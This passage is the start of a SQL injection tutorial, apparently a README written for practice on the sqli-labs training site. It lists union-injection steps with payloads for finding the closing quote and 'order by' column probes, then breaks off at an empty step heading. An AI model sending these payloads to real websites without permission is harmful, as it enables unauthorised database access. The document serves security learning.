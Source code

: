 # SQL Injection

> Before wirting, I want to share a useful learning website about sqli. That [sqli-labs](https://www.cnblogs.com/zhengna/p/12617743.html)

And you are supposed to know the basic of sqli, such as some userful function like "user()","database()","group_concat()", and note that the use
of "#", "--+", etc.

## 1. Union Injection

Here are some basic steps of union injection.

### 1. Look for the type of closing symbol

See you need to upload the **$id**

You can put "/?id=" + followings
1. 1 or 1=1--+
2. 1' or 1=1--+
3. 1" or 1=1--+
4. 1) or 1=1--+
5. 1') or 1=1--+
6. 1") or 1=1--+

You can find that the correct closing lead to a normal reflect instead of ERROR.

### 2. Ensure the column number

We assume that $id closed by single quote, then use **order** to find the columns.

Try """1' order by 1--+""" and then """1' order by 2--+""", until errors. That's the column number.

### 3. 
